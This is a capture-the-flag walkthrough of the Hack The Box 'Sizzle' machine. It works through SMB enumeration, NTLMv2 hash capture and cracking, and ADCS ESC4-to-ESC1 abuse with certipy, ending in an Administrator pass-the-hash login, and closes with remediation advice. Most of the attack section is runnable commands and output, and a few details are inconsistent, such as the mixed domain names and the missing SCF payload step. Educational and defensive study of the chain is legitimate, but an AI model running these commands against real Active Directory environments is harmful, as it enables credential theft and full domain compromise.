

## HTB Sizzle — Full Walkthrough & Writeup

**Sizzle** is an insane-difficulty Windows Active Directory machine from Hack The Box. This walkthrough outlines the complete attack chain, starting from guest access on SMB shares to dropping a malicious `.scf` file to harvest domain user hashes. After cracking the password for `amanda`, we enumerate ADCS and abuse WriteDacl/WriteOwner privileges on the `SSL` certificate template (ESC4) to convert it into a vulnerable ESC1 template, allowing us to enroll a certificate as the Domain Administrator and gain full administrative access via Pass-the-Hash.

---

## Machine Information

| Property             | Value                                  |
| -------------------- | -------------------------------------- |
| **OS**               | Windows Server 2016                    |
| **Difficulty**       | Insane                                 |
| **Domain**           | `htb.local` / `sizzle.htb.local`       |
| **DC Hostname**      | `SIZZLE`                               |
| **IP Address**       | `10.129.209.25`                        |
| **Foothold Account** | `amanda` / `Ashare1972`                |

---

## Attack Chain Overview

The following diagram illustrates the complete attack path:

```mermaid
graph TD
    A["Anonymous FTP & SMB Guest Access"] -->|Identify Writable Share| B["Drop Malicious SCF File<br/>(Capture NTLMv2 Hash)"]
    B -->|Hashcat Cracking| C["amanda Credentials<br/>(Ashare1972)"]
    C -->|ADCS ESC4 Abuse| D["Modify SSL Template<br/>(certipy-ad template)"]
    D -->|ADCS ESC1 Abuse| E["Request Administrator Certificate<br/>(certipy-ad req)"]
    E -->|Certipy Auth (PKINIT)| F["Domain Admin PTH<br/>(Full Domain Takeover)"]

    style A fill:#2d5016,stroke:#4ade80,color:#fff
    style C fill:#4a1d96,stroke:#a78bfa,color:#fff
    style F fill:#7f1d1d,stroke:#ef4444,color:#fff
```

---

## Recon

### Nmap port scan

As always I am going to start by running an `Nmap` scan with default service and version detection scripts. 

```shell
┌──(kali㉿kali)-[~/hack-the-box/sizzle]
└─$ nmap -sC -sV -p- -oA nmap_report --min-rate 10000 10.129.209.25 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-24 18:32 IST
Nmap scan report for 10.129.209.25
Host is up (0.19s latency).
Not shown: 65519 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|_  SYST: Windows_NT
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title (text/html).
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp   open  ssl/http      Microsoft IIS httpd 10.0
| tls-alpn: 
|   h2
|_  http/1.1
|_http-server-header: Microsoft-IIS/10.0
|_ssl-date: 2024-12-24T06:22:21+00:00; -6h42m24s from scanner time.
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=sizzle.htb.local
| Not valid before: 2018-07-03T17:58:55
|_Not valid after:  2020-07-02T17:58:55
| http-methods: 
|_  Potentially risky methods: TRACE
445/tcp   open  microsoft-ds?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: HTB.LOCAL, Site: Default-First-Site-Name)
|_ssl-date: 2024-12-24T06:22:21+00:00; -6h42m24s from scanner time.
| ssl-cert: Subject: commonName=sizzle.HTB.LOCAL
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:sizzle.HTB.LOCAL
| Not valid before: 2021-02-11T12:59:51
|_Not valid after:  2022-02-11T12:59:51
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49691/tcp open  msrpc         Microsoft Windows RPC
49692/tcp open  msrpc         Microsoft Windows RPC
49709/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: SIZZLE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-12-24T06:21:35
|_  start_date: 2024-12-24T06:18:16
|_clock-skew: mean: -6h42m25s, deviation: 2s, median: -6h42m24s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 113.48 seconds

```

### LDAP Anonymous Bind

LDAP Anonymous bind is not allowed, so unless I have some valid credentials, I cannot do anything with LDAP.

```shell
┌──(frodo㉿kali)-[~/hack-the-box/sizzle]
└─$ netexec ldap 10.129.209.25 -u guest -p ''      
SMB         10.129.209.25   445    SIZZLE           [*] Windows 10 / Server 2016 Build 14393 x64 (name:SIZZLE) (domain:HTB.LOCAL) (signing:True) (SMBv1:False)
LDAP        10.129.209.25   389    SIZZLE           [-] Error in searchRequest -> operationsError: 000004DC: LdapErr: DSID-0C090A4C, comment: In order to perform this operation a successful bind must be completed on the connection., data 0, v3839
LDAP        10.129.209.25   389    SIZZLE           [+] HTB.LOCAL\guest: 
```

### FTP

From the `Nmap` output, we already know that anonymous `FTP` login is allowed, and I was indeed able to login but was unable to find any files or folders.

```shell
┌──(frodo㉿kali)-[~/hack-the-box/sizzle]
└─$ ftp ftp://anonymous:''@10.129.209.25:21 
Connected to 10.129.209.25.
220 Microsoft FTP Service
331 Anonymous access allowed, send identity (e-mail name) as password.
230 User logged in.
Remote system type is Windows_NT.
200 Type set to I.
ftp> dir
229 Entering Extended Passive Mode (|||54415|)
125 Data connection already open; Transfer starting.
226 Transfer complete.
```

### SMB Enumeration

There is a share called `Department Shares` where we got read access. There is one more share called `Operations` but we do not have any access there (yet).

```shell
┌──(frodo㉿kali)-[~/hack-the-box/sizzle]
└─$ netexec smb 10.129.209.25 -u guest -p '' --shares
SMB         10.129.209.25   445    SIZZLE           [*] Windows 10 / Server 2016 Build 14393 x64 (name:SIZZLE) (domain:HTB.LOCAL) (signing:True) (SMBv1:False)
SMB         10.129.209.25   445    SIZZLE           [+] HTB.LOCAL\guest: 
SMB         10.129.209.25   445    SIZZLE           [*] Enumerated shares
SMB         10.129.209.25   445    SIZZLE           Share           Permissions     Remark
SMB         10.129.209.25   445    SIZZLE           -----           -----------     ------
SMB         10.129.209.25   445    SIZZLE           ADMIN$                          Remote Admin
SMB         10.129.209.25   445    SIZZLE           C$                              Default share
SMB         10.129.209.25   445    SIZZLE           CertEnroll                      Active Directory Certificate Services share
SMB         10.129.209.25   445    SIZZLE           Department Shares READ            
SMB         10.129.209.25   445    SIZZLE           IPC$            READ            Remote IPC
SMB         10.129.209.25   445    SIZZLE           NETLOGON                        Logon server share 
SMB         10.129.209.25   445    SIZZLE           Operations                      
SMB         10.129.209.25   445    SIZZLE           SYSVOL                          Logon server share 
```

#### Digging

We were able to get a lot of directories inside, but it is difficult to go through one by one unless we plan a different strategy.

```shell
┌──(frodo㉿kali)-[~/hack-the-box/sizzle]
└─$ smbclient //10.129.209.25/'Department Shares' -U htb/guest%''
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Tue Jul  3 20:52:32 2018
  ..                                  D        0  Tue Jul  3 20:52:32 2018
  Accounting                          D        0  Tue Jul  3 00:51:43 2018
  Audit                               D        0  Tue Jul  3 00:44:28 2018
  Banking                             D        0  Tue Jul  3 20:52:39 2018
  CEO_protected                       D        0  Tue Jul  3 00:45:01 2018
  Devops                              D        0  Tue Jul  3 00:49:33 2018
  Finance                             D        0  Tue Jul  3 00:41:57 2018
  HR                                  D        0  Tue Jul  3 00:46:11 2018
  Infosec                             D        0  Tue Jul  3 00:44:24 2018
  Infrastructure                      D        0  Tue Jul  3 00:43:59 2018
  IT                                  D        0  Tue Jul  3 00:42:04 2018
  Legal                               D        0  Tue Jul  3 00:42:09 2018
  M&A                                 D        0  Tue Jul  3 00:45:25 2018
  Marketing                           D        0  Tue Jul  3 00:44:43 2018
  R&D                                 D        0  Tue Jul  3 00:41:47 2018
  Sales                               D        0  Tue Jul  3 00:44:37 2018
  Security                            D        0  Tue Jul  3 00:51:47 2018
  Tax                                 D        0  Tue Jul  3 00:46:54 2018
  Users                               D        0  Wed Jul 11 03:09:32 2018
  ZZ_ARCHIVE                          D        0  Tue Jul  3 01:02:58 2018

		7779839 blocks of size 4096. 3695937 blocks available
smb: \> 
```

I am going to mount the share so that I can access it easily.

```shell
┌──(frodo㉿kali)-[~/hack-the-box/sizzle]
└─$ sudo mount -t cifs "//10.129.209.25/Department Shares" /mnt
[sudo] password for frodo: 
Password for root@//10.129.209.25/Department Shares: 
```

Listing the share `--recursive`, I found a lot of empty folder and subfolders. But a folder `/mnt/ZZ_ARCHIVE` seems to have a lot of files.

```shell
┌──(root㉿kali)-[/home/frodo/hack-the-box/sizzle]
└─# ls /mnt --recursive        
/mnt:
 Accounting   Banking         Devops    HR   Infosec          Legal   Marketing   Sales      Tax     ZZ_ARCHIVE
 Audit        CEO_protected   Finance   IT   Infrastructure  'M&A'   'R&D'        Security   Users

/mnt/Accounting:

/mnt/Audit:

/mnt/Banking:
Offshore

/mnt/Banking/Offshore:
Clients  Data  Dev  Plans  Sites

/mnt/Banking/Offshore/Clients:

/mnt/Banking/Offshore/Data:

/mnt/Banking/Offshore/Dev:

/mnt/Banking/Offshore/Plans:

/mnt/Banking/Offshore/Sites:

/mnt/CEO_protected:

/mnt/Devops:

/mnt/Finance:

/mnt/HR:
 Benefits  'Corporate Events'  'New Hire Documents'   Payroll   Policies

/mnt/HR/Benefits:

'/mnt/HR/Corporate Events':

'/mnt/HR/New Hire Documents':

/mnt/HR/Payroll:

/mnt/HR/Policies:

/mnt/IT:

/mnt/Infosec:

/mnt/Infrastructure:

/mnt/Legal:

'/mnt/M&A':

/mnt/Marketing:

'/mnt/R&D':

/mnt/Sales:

/mnt/Security:

/mnt/Tax:
2010  2011  2012  2013  2014  2015  2016  2017  2018

/mnt/Tax/2010:

/mnt/Tax/2011:

/mnt/Tax/2012:

/mnt/Tax/2013:

/mnt/Tax/2014:

/mnt/Tax/2015:

/mnt/Tax/2016:

/mnt/Tax/2017:

/mnt/Tax/2018:

/mnt/Users:
Public  amanda  amanda_adm  bill  bob  chris  henry  joe  jose  lkys37en  morgan  mrb3n

/mnt/Users/Public:

/mnt/Users/amanda:

/mnt/Users/amanda_adm:

/mnt/Users/bill:

/mnt/Users/bob:

/mnt/Users/chris:

/mnt/Users/henry:

/mnt/Users/joe:

/mnt/Users/jose:

/mnt/Users/lkys37en:

/mnt/Users/morgan:

/mnt/Users/mrb3n:

/mnt/ZZ_ARCHIVE:
AddComplete.pptx       EditCompress.xls  HideExpand.rm       ReceiveInvoke.mpeg2    UndoPing.rm
AddMerge.ram           EditMount.doc     InstallWait.pptx    RemoveEnter.mpeg3      UninstallExpand.mp3
ConfirmUnprotect.doc   EditSuspend.mp3   JoinEnable.ram      RemoveRestart.mpeg     UnpublishSplit.ppt
ConvertFromInvoke.mov  EnableAdd.pptx    LimitInstall.doc    RequestJoin.mpeg2      UnregisterPing.pptx
ConvertJoin.docx       EnablePing.mov    LimitStep.ppt       RequestOpen.ogg        UpdateRead.mpeg
CopyPublish.ogg        EnableSend.ppt    MergeBlock.mp3      ResetCompare.avi       WaitRevoke.pptx
DebugMove.mpg          EnterMerge.mpeg   MountClear.mpeg2    ResetUninstall.mpeg    WriteUninstall.mp3
DebugSelect.mpg        ExitEnter.mpg     MoveUninstall.docx  ResumeCompare.doc
DebugUse.pptx          ExportEdit.ogg    NewInitialize.doc   SelectPop.ogg
DisconnectApprove.ogg  GetOptimize.pdf   OutConnect.mpeg2    SuspendWatch.mp4
DisconnectDebug.mpeg2  GroupSend.rm      PingGet.dot         SwitchConvertFrom.mpg
```

I checked a couple of files but they did not seem to have anything.

```shell
┌──(root㉿kali)-[/home/frodo/hack-the-box/sizzle]
└─# cat /mnt/ZZ_ARCHIVE/AddComplete.pptx 
                                                                                                                              
┌──(root㉿kali)-[/home/frodo/hack-the-box/sizzle]
└─# cat /mnt/ZZ_ARCHIVE/DebugUse.pptx   
```

I also checked the users folder. Although there are no files in side, but at least I got some usernames which I might be able to use.

```
/mnt/Users:
Public  amanda  amanda_adm  bill  bob  chris  henry  joe  jose  lkys37en  morgan  mrb3n
```

I am going to export the usernames to a `.txt` file.

```shell
(root㉿kali)-[/home/frodo/hack-the-box/sizzle]
└─# ls /mnt/Users -l |awk '{print $9}' > usernames.txt
         
┌──(root㉿kali)-[/home/frodo/hack-the-box/sizzle]
└─# cat usernames.txt                

Public
amanda
amanda_adm
bill
bob
chris
henry
joe
jose
lkys37en
morgan
mrb3n
```

## Drop the payload

```shell
# find . -type d | while read directory; do touch ${directory}/0xdf 2>/dev/null && echo "${directory} - write file" && rm ${directory}/0xdf; mkdir ${directory}/0xdf 2>/dev/null && echo "${directory} - write directory" && rmdir ${directory}/0xdf; done
./Users/Public - write file
./Users/Public - write directory
./ZZ_ARCHIVE - write file
./ZZ_ARCHIVE - write directory
```

```shell
[SMB] NTLMv2-SSP Client   : 10.129.209.25
[SMB] NTLMv2-SSP Username : HTB\amanda
[SMB] NTLMv2-SSP Hash     : amanda::HTB:e67771ed73d7a63a:21AE12F3C8D3B0BF4CB9836E36A3B289:01010000000000008084854F3456DB017D29AD55D36A72FA0000000002000800430058003200360001001E00570049004E002D00330050004B003100500031004F00560039004400570004003400570049004E002D00330050004B003100500031004F0056003900440057002E0043005800320036002E004C004F00430041004C000300140043005800320036002E004C004F00430041004C000500140043005800320036002E004C004F00430041004C00070008008084854F3456DB0106000400020000000800300030000000000000000100000000200000612179D02F9508C6F03C26CB3E06CE8E169AF6C3FE014342EB0661460C8E87070A001000000000000000000000000000000000000900220063006900660073002F00310030002E00310030002E00310034002E00310030003400000000000000000000000000
[*] Skipping previously captured hash for HTB\amanda
```


```shell
$ hashcat -m 5600 -a 0 -o cracked  amanda_ntlmv2.hash /usr/share/wordlists/rockyou.txt
```

Password was cracked easily

`Ashare1972`


## ADCS Enumeration & Exploitation

Using Certipy, we enumerate the active ADCS configurations from the perspective of our newly compromised user `amanda`:

```shell
┌──(kali㉿kali)-[~/hack-the-box/sizzle]
└─$ certipy-ad find -u amanda@sizzle.htb -p 'Ashare1972' -dc-ip 10.129.209.25 -vulnerable
```

```shell
┌──(kali㉿kali)-[~/hack-the-box/sizzle]
└─$ certipy-ad template -template ssl -save-old -dc-ip 10.129.209.25 -u amanda@sizzle.htb -p 'Ashare1972'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Saved old configuration for 'ssl' to 'SSL.json'
[*] Updating certificate template 'SSL'
[*] Successfully updated 'SSL'
```


```shell
Certificate Templates
  0
    Template Name                       : SSL
    Display Name                        : SSL
    Certificate Authorities             : HTB-SIZZLE-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : True
    Any Purpose                         : True
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : None
    Private Key Flag                    : ExportableKey
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 5 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Object Control Permissions
        Owner                           : HTB.LOCAL\Administrator
        Full Control Principals         : HTB.LOCAL\Authenticated Users
        Write Owner Principals          : HTB.LOCAL\Authenticated Users
        Write Dacl Principals           : HTB.LOCAL\Authenticated Users
        Write Property Principals       : HTB.LOCAL\Authenticated Users
    [!] Vulnerabilities
      ESC1                              : 'HTB.LOCAL\\Authenticated Users' can enroll, enrollee supplies subject and template allows client authentication
      ESC2                              : 'HTB.LOCAL\\Authenticated Users' can enroll and template can be used for any purpose
      ESC3                              : 'HTB.LOCAL\\Authenticated Users' can enroll and template has Certificate Request Agent EKU set
      ESC4  

```


```shell
┌──(kali㉿kali)-[~/hack-the-box/sizzle]
└─$ certipy-ad req -template SSL -dc-ip 10.129.209.25 -u amanda -p 'Ashare1972' -upn 'administrator@sizzle.htb' -ca HTB-SIZZLE-CA -debug
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:10.129.209.25[\pipe\cert]
[+] Connected to endpoint: ncacn_np:10.129.209.25[\pipe\cert]
[*] Successfully requested certificate
[*] Request ID is 24
[*] Got certificate with UPN 'administrator@sizzle.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'

```
### Authenticating as Domain Administrator

With the `administrator.pfx` file successfully generated, we authenticate to the DC via PKINIT using `certipy-ad auth`. This grants us the Kerberos TGT and extracts the NTLM hash of the `Administrator` account:

```shell
┌──(kali㉿kali)-[~/hack-the-box/sizzle]
└─$ certipy-ad auth -pfx administrator.pfx -dc-ip 10.129.209.25
```

```
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@sizzle.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sizzle.htb': integrity_of_hash:a52f78c0e75f22090c37f7c6e6e2051f
```

We now have the Domain Administrator's NTLM hash: `a52f78c0e75f22090c37f7c6e6e2051f`.

### Restoring the Template Configuration

To maintain post-exploitation stealth and restore the default ADCS security posture, we revert the `SSL` certificate template back to its original configuration using the JSON backup we created earlier:

```shell
┌──(kali㉿kali)-[~/hack-the-box/sizzle]
└─$ certipy-ad template -template ssl -configuration SSL.json -dc-ip 10.129.209.25 -u amanda@sizzle.htb -p 'Ashare1972'
```

```
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating certificate template 'SSL'
[*] Successfully updated 'SSL'
```

### Domain Compromise

Using the retrieved NTLM hash, we authenticate as `Administrator` via WinRM:

```shell
┌──(kali㉿kali)-[~/hack-the-box/sizzle]
└─$ evil-winrm -i 10.129.209.25 -u administrator -H a52f78c0e75f22090c37f7c6e6e2051f
```

```
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
htb\administrator

*Evil-WinRM* PS C:\Users\amanda\Desktop> type user.txt
e4e892c2...

*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
9dab1cad...
```

The domain controller is completely compromised!

---

## Lessons Learned

### 1. Secure SMB Share Write Permissions
The initial compromise was possible because the `Department Shares` share allowed anonymous write access to subfolders, allowing an attacker to drop a malicious `.scf` file to harvest NTLM hashes.
- **Remediation**: Disable write access for unauthenticated or guest users on all SMB shares. Enforce signing and access control lists (ACLs) to restrict access to authenticated personnel only.

### 2. Password Complexity and Rotation
The cracked NTLM hash for `amanda` (`Ashare1972`) indicates a weak, dictionary-based password that was easily cracked using standard wordlists.
- **Remediation**: Enforce a strong password complexity policy requiring special characters, numbers, and minimum lengths. Educate users on password hygiene and implement multi-factor authentication (MFA).

### 3. Hardening ADCS Certificate Templates
The `SSL` template allowed `Authenticated Users` to modify its DACL configuration (ESC4), permitting write-access users to configure the template to supply client-controlled SANs (ESC1).
- **Remediation**: Regularly audit ADCS certificate templates. Restrict Write Dacl, Write Owner, and Full Control permissions to highly privileged groups (such as Domain Admins or Enterprise Admins). Disable the `EnrolleeSuppliesSubject` flag on templates used for client authentication.


